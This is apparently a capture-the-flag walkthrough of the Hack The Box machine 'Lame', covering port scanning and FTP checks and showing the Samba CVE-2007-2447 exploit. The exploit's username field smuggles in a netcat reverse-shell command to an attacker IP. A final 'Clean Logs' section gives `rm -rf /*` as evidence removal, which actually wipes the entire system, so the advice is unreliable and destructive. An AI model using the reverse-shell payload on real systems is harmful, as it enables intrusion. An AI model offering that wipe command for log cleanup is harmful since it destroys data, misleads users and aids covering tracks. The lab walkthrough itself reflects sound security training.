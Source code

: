 # HTB - Lame

**IP Address:** `10.10.10.3`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** FTP, Samba, RCE, Netcat, CVE-2007-2447, Shell Stabilization

---

## 1. Network Scan

### 1.1 Ping Check

```bash
ping -c 1 10.10.10.3
```

✅ Host is alive

### 1.2 Full Port Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

Discovered:

- 21/tcp → FTP (vsftpd 2.3.4)
- 22/tcp → SSH
- 139/tcp → NetBIOS
- 445/tcp → Microsoft-DS (Samba)
- 3632/tcp → distccd

### 1.3 Targeted Version Scan

```bash
nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```

---

## 2. FTP Enumeration

```bash
ftp 10.10.10.3
```

✅ Anonymous login allowed  
❌ No useful files to download

### 2.1 FTP Exploit (vsftpd 2.3.4)

Checked `vsftpd 2.3.4` in `searchsploit`:

```bash
searchsploit vsftpd 2.3.4
```

Downloaded and tested exploit:

```bash
searchsploit -m 49757
```

❌ Exploit ran but no shell was obtained.

---

## 3. Samba RCE - CVE-2007-2447

Targeted Samba 3.0.20 with this exploit:

```bash
https://github.com/MikeRega7/CVE-2007-2447-RCE
```

Confirmed shares:

```bash
smbclient -L 10.10.10.3 -N
```

Connected to `/tmp` share:

```bash
smbclient //10.10.10.3/tmp -N
```

Exploit uses:

```bash
username = "/=`nohup nc -e /bin/bash 10.10.14.4 443`"
```

Set up listener:

```bash
nc -lvnp 443
```

Received reverse shell!

---

## 4. Shell Stabilization

On the victim shell:

```bash
script /dev/null -c bash
```

Then:

```bash
[CTRL+Z]
stty raw -echo; fg
reset xterm
```

Now, you can use interactive commands like `clear`, `Ctrl+C`, etc.

---

## 5. Flags

### 5.1 User Flag

Located in home directory  
🏁 **User flag retrieved**

### 5.2 Root Flag

Checked `/root`  
🏁 **Root flag retrieved**

---

## ✅ Post Exploitation - Clean Logs (Optional)

To remove evidence:

```bash
(rm -rf /*) 2>/dev/null
```

⚠️ **Use with caution** — this wipes the system.

---

# ✅ MACHINE COMPLETE
